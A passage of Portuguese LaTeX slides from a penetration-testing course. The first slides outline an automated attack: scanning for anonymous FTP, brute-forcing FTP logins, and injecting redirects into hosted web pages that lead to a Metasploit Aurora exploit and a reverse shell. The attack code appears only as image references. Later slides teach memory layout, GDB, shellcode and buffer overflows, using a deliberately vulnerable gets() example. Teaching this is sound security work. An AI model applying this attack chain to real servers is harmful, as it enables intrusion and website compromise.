        
\includegraphics[width=0.45\textwidth]{Python/res/a10.png}
    \end{figure}
\end{frame}

\begin{frame}{Anonymous FTP Scanner}
  Considerando os problemas de segurança que isso pode trazer, seria surreal que sites ofereçam acesso anonimo FTP. Porém diversos sites seguem com essa filosofia pela facilidade de atualizar softwares. Iremos utilizar a biblioteca ftplib afim de cosntruir um script que determina se um servidor oferece login anonimo. A função anonLogin() recebe o hostname e retorna um boolean que indica a possibilidade desse login. 
\end{frame}

\begin{frame}{Anonymous FTP Scanner}
  \begin{figure}
        \centering
        
\includegraphics[width=0.6\textwidth]{Python/res/a11.png}
    \end{figure}
\end{frame}

\begin{frame}{Anonymous Brute Force FTP User Credentials}
    Agora podemos avançar com esse script e melhora-lo para descobrir e ganhar acesso ao servidor através de força bruta. Iremos escrever a função bruteLogin() para isso, a função ira receber o hostname e um arquivo de senhas como input e retornar as credenciais que possibilitam acesso ao host.
\end{frame}

\begin{frame}{Anonymous Brute Force FTP User Credentials}
  \begin{figure}
        \centering
        
\includegraphics[width=0.6\textwidth]{Python/res/a12.png}
    \end{figure}
\end{frame}

\begin{frame}{Searching for Web Pages with FTP Server}
  Agora que conseguimos as credenciais o próximo passo é verificar se o server oferece acesso a web. Para testar isso devemos listar o conteúdo do diretório do server e procurar pela existência de páginas default. A função returnDefault() recebe uma conexão FTP e retorna um array com as páginas default que encontrar.
\end{frame}

\begin{frame}{Searching for Web Pages with FTP Server}
  \begin{figure}
        \centering
        
\includegraphics[width=0.6\textwidth]{Python/res/a13.png}
    \end{figure}
\end{frame}

\begin{frame}{Malicious Inject to Web Pages}
  Agora que encontramos as páginas de web devemos infecta-las com um redirect. No exemplo fornecido utilizamos o framework Metasploit para criar um servidor com uma página hosteada em . O serviço oferece o exploit ms10\_002\_aurora, que é o mesmo exploit utilizado contra o Google na Oepração Aurora.
  Se for bem sucedido um TCP shell reverso será criado garantindo acesso ao cmd do Windows.
\end{frame}

\begin{frame}{Malicious Inject to Web Pages}
  \begin{figure}
        \centering
        
\includegraphics[width=0.6\textwidth]{Python/res/a14.png}
    \end{figure}
\end{frame}

\begin{frame}{Bringing All Together}
    Agora iremos unir o ataque inteiro em um unico script que automatizara todo o processo.
\end{frame}

\begin{frame}{Bringing All Together}
  \begin{figure}
        \centering
        
\includegraphics[width=0.5\textwidth]{Python/res/a15.png}
    \end{figure}
\end{frame}

\begin{frame}{Bringing All Together}
  \begin{figure}
        \centering
        
\includegraphics[width=0.5\textwidth]{Python/res/a16.png}
    \end{figure}
\end{frame}

\begin{frame}{Bringing All Together}
  \begin{figure}
        \centering
        
\includegraphics[width=0.4\textwidth]{Python/res/a17.png}
    \end{figure}
\end{frame}



\section{Exploit Linux for PenTesters}
\subsection{Introdução a Memória}

\begin{frame}{Memória Física}

  \begin{itemize}
  \item{
  Registradores
  \begin{itemize}
    \item{
    Propósito Geral (EAX, EBX, ECX, EDX, ESI, EDI, EBP, ESP), Segmento (CS, DS, SS, ES, FS, GS), Eflags, EIP.
    }
  \end{itemize}
  }
  \begin{figure}[tbp]
        
\includegraphics[width=5cm, height=3cm]{Linux/imagens/general_purpose_registers.png}
        \break
        \centering
    \end{figure}
  \item{
  Cache
  }
  \item{
  RAM
  }
\end{itemize}
\end{frame}

\begin{frame}{Memória}
  \begin{itemize}
  \item{
  Modos de Endereçamento
  \begin{itemize}
    \item{
        Modo Real
    }
    \item{
        Modo Protegido
    }
  \end{itemize}
  }
  \item{
  Memória Virtual
  \begin{itemize}
    \item{
        Memória Física
    }
    \item{
        Endereçamento Linear
    }
  \end{itemize}
  }
  \item{
  Paginação
  }
\end{itemize}
\end{frame}

\begin{frame}{Paginação}
  \begin{itemize}
  \item{
  Permite endereçamento indireto da memória
  }
  \item{
  O endereçamento linear é mapeado em páginas de tamanho fixo
  \begin{itemize}
    \item{
        Normalmente de tamanho 4KB
    }
    \item{
        Páginas são indexadas por tabelas de páginas com 1.024 entradas
    }
    \item{
        Tabelas de Páginas são mapeadas em Diretórios de Páginas
    }
    \item{
        Tradução do endereço virtual para o endereço real
    }
  \end{itemize}
  }
  \item{
  Troca de Contexto
  }
  \item{
  Páginas que não foram acessadas recentemente são copiadas de volta ao disco
  }
  \item{
  Page Fault
  }
\end{itemize}
\end{frame}

\begin{frame}{Arquivo Objeto}
  \begin{itemize}
  \item{
  Segmento de Código
  }
  \item{
  Segmento de Dados
  }
  \item{
  Segmento BSS
  }
  \item{
  Heap
  }
  \item{
  Pilha
  }
\end{itemize}
\end{frame}

\defverbatim[colored]\lstI{
\begin{lstlisting}[language=C++,basicstyle=\ttfamily,keywordstyle=\color{blue},basicstyle=\tiny]
#include <stdio.h>
int one = 1;
int nothing;

int complex_function(void){
	int x;
	int p;
	printf("The Stack Segment starts around address: \t \%p \n", &x);
	printf("Please enter an number: ");
	scanf("\%d", &x);
	return (x);
}

int main(void){
	int money = 99;
	printf("PID is \%d \n \n", getpid());
	printf("One + Your number: \%d \n \n", one+complex_function());
	printf("This program is held open so it may be attached with a debugger.");
	printf("The Data Segment starts at address: \t \%p \n", &one);
	printf("The BSS Segment starts at address: \t \%p \n", &nothing);
	printf("The Code Segment starts around: \t \%p \n", &complex_function);

	while(1);
}

\end{lstlisting}
}

\begin{frame}[fragile]
  \frametitle{Demonstração dos Segmentos}
    \lstI
\end{frame}

\begin{frame}[fragile]
  \frametitle{Demonstração dos Segmentos}
    \begin{center}
      
\includegraphics[width=.99\linewidth]{Linux/imagens/LabPentest1.png}
    \end{center}
\end{frame}

\begin{frame}[fragile]
  \frametitle{Pilha}
  \begin{columns}
    \begin{column}{0.5\textwidth}
    \begin{itemize}
        \item{
          Funções
        }
         \item{
        LIFO
        }
        \item{
          Ponteiro de Retorno
          }
         \item{
          Buffer
          } 
          \item{
          Procedure Prolog
          \begin{itemize}
            \item{
                push \%ebp
            }
            \item{
                mov \%esp,\%ebp
            }
            \item{
                sub 0x8,\%esp
            }
          \end{itemize}
          } 
          \item{
          Procedure Epilog
          \begin{itemize}
            \item{
                mov \%ebp,\%esp
            }
            \item{
                pop \%ebp
            }
            \item{
                ret
            }
          \end{itemize}
          } 
        \end{itemize}
    \end{column}
    \begin{column}{0.5\textwidth}
      
\includegraphics[width=.99\linewidth]{Linux/imagens/LabPentest2.png}
    \end{column}
  \end{columns}
\end{frame}


\begin{frame}{Ferramenta: GNU Debugger (GDB)}
  \begin{itemize}
  \item{
  Debugger para as linguagens C, C++ e Fortran
  }
  \item{
  Alguns Comandos:
    \begin{itemize}
        \item{
             disass "function" - Mostra as instruções assembly de uma função
        }
        \item{
             break "function" - Pausa a execução quando a função especificada é alcançada
        }
        \item{
             print - Imprime conteúdo de registradores e variáveis
        }
        \item{
             x/"number"i "mem address" - Examina localizações na memória
        }
        \item{
             info - Imprime o conteúdo e o estado de registradores e variáveis
        }
    \end{itemize}
  }
\end{itemize}
\end{frame}

\begin{frame}[fragile]
  \frametitle{Demonstração da Ferramenta GBD}
      
\includegraphics[width=.99\linewidth]{Linux/imagens/LabPentest3.png}
\end{frame}

\begin{frame}[fragile]
  \frametitle{Linguagem Assembly x86}
  \begin{itemize}
      \item {
        Linguagem de baixo nível
      }
  \end{itemize}
  \begin{columns}
    \begin{column}{0.5\textwidth}
        \begin{itemize}
            \item {
                AT\&T
              }
            \item{
              pushI \$8 \linebreak
              mov \%esp,\%ebp
            }  
            \item{
              Primeiro src, depois dest
            }  
            \item{
            \$ = Operando Imediato
            }
            \item{
            \% = Operando Indireto
            }
            \item{
            () = Ponteiro
            }
            \item{
            Tamanho dos Operandos
                \begin{itemize}
                    \item {
                      movI \$0x8028024,(\%esp)
                    }
                    \item{
                     b - byte, w - word, l - long
                    }
                \end{itemize}
            }
        \end{itemize}
    \end{column}
    \begin{column}{0.5\textwidth}
        \begin{itemize}
            \item {
                Intel
              }
            \item{
              push 8 \linebreak
              mov ebp, esp
            }  
            \item{
              Primeiro dest, depois src
            }  
            \item{
            [] = Ponteiro
            }
            \item{
            Tamanho dos Operandos
                \begin{itemize}
                    \item {
                      mov DWORD PTR [esp],0x8028024
                    }
                    \item{
                     Intel usa “byte ptr”, “word ptr”, ou “dword ptr”
                    }
                \end{itemize}
            }
        \end{itemize}
    \end{column}
  \end{columns}
\end{frame}

\begin{frame}{Linkers \& Loaders}
    \begin{itemize}
        \item {
        Linkers: ligam o nome de uma função para sua localização real
        }
        \item{
        Loaders: Carregam um programa da unidade de armazenamento (disco) para a memória
        }
        \item{
        Resolução de Símbolos: resolução do endereço das funções em tempo de execução
        }
    \end{itemize}
  
\end{frame}

\begin{frame}{ELF - Executable and Linking Format}
  \begin{itemize}
      \item {
      Arquivos Relocáveis
      }
      \item{
      Arquivos Executáveis
      }
      \item{
      Objetos Compartilhados
      }
      \item{
      Global Offset Table (GOT)
      }
      \item{
      Procedure Linkage Table (PLT)
      }
  \end{itemize}
\end{frame}

\begin{frame}{Ferramenta: objdump}
  \begin{itemize}
      \item {
      Exibe informações do arquivo objeto
      }
      \item{
      Realiza disassembly, assim como GDB, mas com objdump não é necessário executar o arquivo
      }
      \item{
      Comandos:
        \begin{itemize}
            \item {
                objdump -d: Realiza o disassembly de um arquivo objeto
            }
            \item{
                objdump -j "section name": Permite especificar uma seção
            }
            \item{
                objdump -h: Exibe os headers das seções
            }
        \end{itemize}
      }
  \end{itemize}
\end{frame}

\begin{frame}{Ferramenta: readelf}
  \begin{itemize}
      \item{
      Exibe informações dos headers do arquivo objeto ELF e das seções: GOT, PLT, e informações de localização
      }
  \end{itemize}
\end{frame}

\begin{frame}{Demonstração das Ferramentas}
 
    GBD: disas main \linebreak
        
\includegraphics[width=.8\linewidth]{Linux/imagens/LabPentest4.png} \linebreak
    objdump -d -j .text memtest | grep puts \linebreak
     
\includegraphics[width=.8\linewidth]{Linux/imagens/LabPentest5.png} \linebreak
    objdump -R memtest \linebreak
    
\includegraphics[width=.8\linewidth]{Linux/imagens/LabPentest6.png} \linebreak

\end{frame}

\begin{frame}{Demonstração das Ferramentas}
 
    Analisando a função puts() - disas put: \linebreak
        
\includegraphics[width=.8\linewidth]{Linux/imagens/LabPentest7.png} \linebreak
    readelf -x 22 memtest \linebreak
     
\includegraphics[width=.8\linewidth]{Linux/imagens/LabPentest8.png} \linebreak
    Depois de executar o programa memtest e determinar o endereço da GOT:
    
\includegraphics[width=.8\linewidth]{Linux/imagens/LabPentest9.png}
    

\end{frame}


\begin{frame}{Ferramenta: Itrace}
    \begin{itemize}
        \item {
            Ferramenta para interceptar e gravar chamadas a bibliotecas. É util para localizar chamadas para alocação de memória.
        }
        \item{
            Similar a ferramenta strace
        }
        \item{
            Pode ser utilizada para encontrar o endereço de memória do chunk alocado pelo malloc:
        }
    \end{itemize}
    
\end{frame}

\begin{frame}{ShellCode}
    \begin{itemize}
        \item {
            Tem esse nome porque foi primariamente utilizado para lançar um shell.
        }
        \item{
            Escrito em linguagem Assembly, específico de cada tipo de processador. É convertido para linguagem de máquina por um assembler, como o NASM.
        }
        \item{
            Injetado em um programa, serve como payload.
        }
        \item{
            Quando convertido para código de máquina, os bytes nulos devem ser eliminados. Funções como strcpy() terminam quando encontram algum byte nulo
        }
        \item{
            Ferramenta NASM: Usada para montar código assembly em arquivos objeto.
        }
    \end{itemize}
    
\end{frame}

\begin{frame}{Chamadas de Sistema}
    \begin{itemize}
        \item {
            Maneira de comunicação entre o user mode e o kernel mode
        }
        \item{
            Argumentos são carregados na memória e uma interrupção é feita
            \begin{itemize}
                \item {
                EAX armazena o número da chamada de sistema
                }
                \item{
                EBX, ECX e EDX normalmente armazenam os argumentos
                }
            \end{itemize}
        }
    \end{itemize}
    
\end{frame}

\begin{frame}{Criando ShellCode}

    ShellCode para restaurar direitos de root (usando syscall setruid()):
  colocar aqui codigo shellcode\_w\_zeros
\end{frame}

\begin{frame}{Criando ShellCode}
    \begin{itemize}
        \item {
        Utilizando a ferramenta NASM para criar o shellcode. O comando xxd -ps exibe o codigo de máquina em hexadecimal:
        }
    \end{itemize}
    \begin{center}
     
\includegraphics[width=.8\linewidth]{Linux/imagens/LabPentest10.png}
    \end{center} 
     \begin{itemize}
         \item {
         Existem muitos bytes nulos. Funções de manipulação de strings vão falhar.
         }
         \item{
         É necessário remover os bytes nulos.
         \begin{itemize}
             \item {
             mov eax, 0x00 ;Esse comando deixa 0's sobrando
             }
             \item{
             mov al, 0x00 ;Melhor maneira de evitar bytes nulos
             }
         \end{itemize}
         }
         \item{
         ShellCode com os bytes nulos removidos:
         }
     \end{itemize}
     \begin{center}
     
\includegraphics[width=.8\linewidth]{Linux/imagens/LabPentest11.png}
     \end{center}

\end{frame}


\subsection{Exemplos de Ataques ao Domínio Linux}

\begin{frame}{Runtime Attacks}
    \begin{itemize}
        \item {
            Controle da aplicação é comprometido em tempo de execução
        }
        \item{
            Tipicamente, ocorre a injeção de código malicioso
        }
        \item{
            Esses tipos de ataques são possíveis pelo fato de o software ser escrito deixando vulnerabilidades
        }
        \item{
            Exemplo mais comum de ataque: Buffer Overflow
        }
    \end{itemize}
    
\end{frame}

\begin{frame}{Contramedidas}
  \begin{itemize}
      \item{Writable Xor Executable
        \begin{itemize}
            \item {
                Previne a execução de código injetado marcando as páginas como \textit{writable} ou \textit{executable}
            }
            \item{
                Implementado no Linux [PaXa] e no Windows [DEP]
            }
            \item{
                Intel e AMD oferecem suporte
            }
        \end{itemize}
      }
      \item{
        ASLR - Address Space Layout Randomization
        \begin{itemize}
            \item {
                O endereço base dos segmentos de memória é randômico
            }
        \end{itemize}
      }
      \item{
        Extensões do compilador
        \begin{itemize}
            \item {
                Dificultam buffer oveflow adicionando canarios de pilha (stack canaries), verificadores de limites, reordenação de variáveis, etc.
            }
        \end{itemize}
      }
  \end{itemize}
\end{frame}

\begin{frame}{Buffer Overflow}
  \begin{itemize}
      \item {
        Objetivo: Mudar o fluxo de execução de um programa redirecionando para um código malicioso injetado.
      }
      \item{
        Injeção de Código:
        \begin{itemize}
            \item {
                Código pode ser injetado realizando overflow de um buffer local alocado na pilha
            }
            \item{
                Esse código é referenciado como \textcolor{red}{shellcode}
            }
            \item{
                Pode ser utilizado para dar acesso a um shell root ao atacante, estabelecer um backdoor na máquina, entre outros tipos de ataques.
            }
        \end{itemize}
      }
  \end{itemize}
\end{frame}

\defverbatim[colored]\lstI{
\begin{lstlisting}[language=C++,basicstyle=\ttfamily,keywordstyle=\color{blue}]
#include <stdio.h>
void echo()
{
    char buffer[80];
    gets(buffer);
    puts(buffer) ;
}
int main()
{
    echo();
    printf ("Done");
    return 0;
}
\end{lstlisting}
}

\begin{frame}{Buffer Overflow}
    \begin{itemize}
        \item {Código vulnerável:
        \begin{itemize}
            \item {
                A função gets() não faz checagem de fronteiras
            }
        \end{itemize}
        }
    \end{itemize}
    \lstI
\end{frame}

\begin{frame}{Buffer Overflow}
    \begin{center}
       (1) O programa começa
       \linebreak
       
\includegraphics[width=.65\linewidth]{Linux/imagens/bo1.PNG}
    \end{center}

\end{frame}

\begin{frame}{Buffer Overflow}
    \begin{center}
       (2) A função echo() é chamada
       \linebreak
       
\includegraphics[width=.65\linewidth]{Linux/imagens/bo2.PNG}
    \end{center}

\end{frame}

\begin{frame}{Buffer Overflow}
    \begin{center}
       (3) A instrução call faz o push do endereço de retorno na pilha
       \linebreak
       
\includegraphics[width=.65\linewidth]{Linux/imagens/bo3.PNG}
    \end{center}

\end{frame}

\begin{frame}{Buffer Overflow}
    \begin{center}
       (4) Espaço do buffer é alocado na pilha
       \linebreak
       
\includegraphics[width=.65\linewidth]{Linux/imagens/bo4.PNG}
    \end{center}

\end{frame}

\begin{frame}{Buffer Overflow}
    \begin{center}
       (5) echo() chama gets(buffer)
       \linebreak
       
\includegraphics[width=.65\linewidth]{Linux/imagens/bo4.PNG}
    \end{center}

\end{frame}

\begin{frame}{Buffer Overflow}
    \begin{center}
       (6) Invasor insere o código malicioso
       \linebreak
       
\includegraphics[width=.65\linewidth]{Linux/imagens/bo5.PNG}
    \end{center}

\end{frame}

\begin{frame}{Buffer Overflow}
    \begin{center}
       (7) Código malicioso é um shellcode...
       \linebreak
       
\includegraphics[width=.65\linewidth]{Linux/imagens/bo6.PNG}
    \end{center}

\end{frame}

\begin{frame}{Buffer Overflow}
    \begin{center}
       (8) ... com um novo endereço de retorno
       \linebreak
       
\includegraphics[width=.65\linewidth]{Linux/imagens/bo7.PNG}
    \end{center}

\end{frame}

\begin{frame}{Buffer Overflow}
    \begin{center}
       (9) Antes de echo retornar, SP é atualizado
       \linebreak
